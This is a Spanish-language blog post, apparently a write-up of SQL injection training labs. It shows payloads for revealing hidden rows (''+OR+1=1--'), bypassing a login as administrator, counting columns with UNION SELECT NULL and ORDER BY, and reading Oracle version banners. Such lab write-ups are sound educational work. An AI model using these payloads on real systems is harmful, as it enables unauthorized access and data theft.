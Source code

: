 ```yaml
---
typora-copy-images-to: ../assets/img/
typora-root-url: ../
layout: post
title:  "Laboratorios(SQL_Injection)"
categories: jekyll update
---
```


#### 1. Obtener datos ocultos:

​	Si queremos mostrar los datos ocultos de la siguiente pagina web.

![lab-1-1](/assets/img/lab-1-1.png)

<br>

Simplemente añadiendo en la URL <code>'+OR+1=1--</code> nos mostraria todos los datos ocultos.

![lab-1-2](/assets/img/lab-1-2.png)

<br>

![lab-1-3](/assets/img/lab-1-3.png)

<br>

#### 2. Subvertir la funcionalidad de la pagina web

Sabiendo un nombre de usuario se puede intentar iniciar sesión sin saber la contraseña, para ello en este caso el usuario seria `"administrator"` y le añadimos `'--` podriamos iniciar sesion (`administrator'--`).

![lab-2-1](/assets/img/lab-2-1.png)

<br>

![lab-2-2](/assets/img/lab-2-2.png)

<br>

![lab-2-3](/assets/img/lab-2-3.png)

<br>

#### 3. Determinar el numero de columnas

​	Si queremos determinar el numero de columnas de una tabla se puede hacer añadiendo en la URL <code>'+UNION+SELECT+NULL--</code> añadiendo tantos `NULL` como columnas hay.



![lab-3-1](/assets/img/lab-3-1.png)

<br>![lab-3-2](/assets/img/lab-3-2.png)

<br>

![lab-3-3](/assets/img/lab-3-3.png)

<br>![lab-3-5](/../../Escritorio/lab-inje-sql/lab-3-5.png)

<br>

​	O tambien se puede utilizando <code>'+ORDER+BY+3--</code> incrementando el numero/disminuyedo segun la columnas que tenga.



![lab-3-4](/assets/img/lab-3-4.png)

<br>![lab-3-5](/assets/img/lab-3-5-1619957790032.png)

<br>

#### 4. Determinar el tipo y la version



Para que nos muestre la version de la base de datos primero determinamos determinamos el número de columnas y si contienen texto.

![lab-4-1](/assets/img/lab-4-1.png)

Para ello añadimos la siguiente inyección en la URL `'+UNION+SELECT+'abc','def'+FROM+dual--`

![lab-4-2](/assets/img/lab-4-2.png)



<br>

![lab-4-3](/assets/img/lab-4-3.png)

<br>

Ya sabiendo esto usamos esta peticion a la base de datos <code>'+UNION+SELECT+BANNER,+NULL+FROM+v$version--</code> para que nos devuelva la versión

![lab-4-4](/assets/img/lab-4-4.png)

<br>

![lab-4-5](/assets/img/lab-4-5.png)

<br>

![lab-4-6](/assets/img/lab-4-6.png)
